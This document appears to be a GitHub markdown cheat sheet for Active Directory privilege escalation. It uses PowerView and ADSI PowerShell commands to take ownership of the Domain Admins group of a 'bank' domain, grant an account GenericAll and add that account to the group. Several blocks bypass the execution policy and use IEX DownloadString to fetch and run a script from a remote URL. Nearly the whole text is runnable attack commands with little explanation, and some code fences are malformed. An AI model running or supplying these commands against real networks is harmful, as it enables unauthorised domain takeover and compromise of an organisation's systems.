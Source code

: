 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

```bash
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

## Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
## Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

## 1. Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
## 2. Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission	Why Needed
- Modify owner	
- Modify permissions	
- Write properties	


---------------------------------------------------------------------------------
### with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView


. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

- 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

- 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

- 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```